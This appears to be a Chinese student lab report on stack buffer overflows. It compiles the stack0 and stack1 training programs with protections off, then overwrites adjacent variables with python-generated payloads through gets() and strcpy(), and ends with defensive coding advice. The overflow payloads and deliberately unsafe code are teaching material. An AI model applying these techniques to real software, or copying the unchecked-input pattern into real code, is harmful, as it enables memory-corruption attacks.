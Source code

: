 # <center>栈溢出实验1</center>

## 实验概述

### 【目的】
1. 通过-fno-stack-protector和-m32参数从gcc编译stack0.c文件。
2. 运行编译后的程序，通过缓冲区溢出修改与字符串数组相邻的变量，得到输出"you have changed the 'modified' variable"
3. 运行stack1程序，通过栈溢出得到输出"you have correctly got the variable to the right value"
### 【环境】
Linux
### 【工具】
gcc，python，IDA pro，binwalk
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### stack0
打开shell，使用-fno-stack-protector参数编译stack0。
```sh
$ gcc stack0.c -o stack0 -fno-stack-protector -m32
stack0.c: In function ‘main’:
stack0.c:11:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(buffer);
   ^
/tmp/ccccxHmM.o: In function `main':
stack0.c:(.text+0x23): warning: the `gets' function is dangerous and should not be used.
```
观察源代码，发现buffer数组与modified变量相邻，要使modified变量不等于0，才能得到输出"you have changed the 'modified' variable"
因为有gets()函数，我们可以向栈上不加限制的写入任意长度的数据，当输入数据大于64时，便发生了溢出，输入数据只要够大，就一定能覆盖到modifiel变量。

这里我们使用python简化输入，免去手打一大堆字符的麻烦。
```sh
$ python -c "print 'A'*65" | ./stack0
you have changed the 'modified' variable
Segmentation fault (core dumped)
```

#### stack1
用binwalk分析程序结构。
```
$ binwalk stack1

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
发现是32位程序，直接拖进idaq.exe，定位到main函数，按F5生成伪代码。

```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+0h] [bp-4Ch]@3
  int v5; // [sp+40h] [bp-Ch]@3
  int *v6; // [sp+48h] [bp-4h]@1

  v6 = &argc;
  if ( argc == 1 )
    errx(1, "please specify an argument\n");
  v5 = 0;
  strcpy(&dest, argv[1]);
  if ( v5 == 'abcd' )
    puts("you have correctly got the variable to the right value");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
可以看到这里把作为参数的字符串复制到了变量dest上：`strcpy(&dest, argv[1]);`
那么我们在运行程序时给出超过dest字符数组长度的参数即可发生溢出，这里我们需要覆盖v5等于`"abcd"`。
经过计算，有：
```
$ python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
you have correctly got the variable to the right value

```
这里的 xargs 表示输入数据作为参数。


### 【总结】

本次实验主要体验Linux环境下栈溢出的发生场景，并尝试通过栈溢出覆盖（修改）相邻的变量，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：


- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

